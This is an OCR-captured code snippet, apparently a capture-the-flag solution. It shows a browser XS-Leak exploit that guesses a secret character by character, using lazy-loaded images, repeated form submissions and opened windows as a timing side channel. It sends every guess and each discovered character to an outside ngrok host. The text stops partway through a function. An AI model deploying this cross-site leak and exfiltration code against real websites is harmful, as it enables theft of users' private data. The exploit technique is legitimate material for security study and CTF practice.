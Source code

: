 ```html
f2.action = TARGET + '/remove'

const sleep = ms => new Promise(r => setTimeout(r, ms))
const send = data => fetch('http://server.ngrok.io?d='+data)
const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

// start exploit
let count = 0
setTimeout(async () => {
let L = 0
let R = charset.length - 1
while( (R-L)>3 ) {
let M = Math.floor((L + R) / 2)
let c = charset[M]
send('try_' + flag + c)
const found = await testChar(flag + c)
if (found) {
L = M
} else {
R = M - 1
}
}

// fallback to linear since I am not familiar with binary search lol
for(let i=R; i>=L; i--) {
let c = charset[i]
send('try_' + flag + c)
const found = await testChar(flag + c)
if (found) {
send('found: '+ flag+c)
flag += c
break
}
}

}, 0)

async function testChar(str) {
return new Promise(resolve => {
/*
For 3350, you need to test it on your local to get this number.
The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
If starts with "A", the image should be loaded because it's in the threshold.
*/
inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
f.submit()

setTimeout(() => {
run(str, resolve)
}, 500)
})
}

async function run(str, resolve) {
// if the request is not enough, we can send more by opening more window
for(let i=1; i<=5;i++) {
window.open(TARGET)
}

let t = 0
const round = 30
```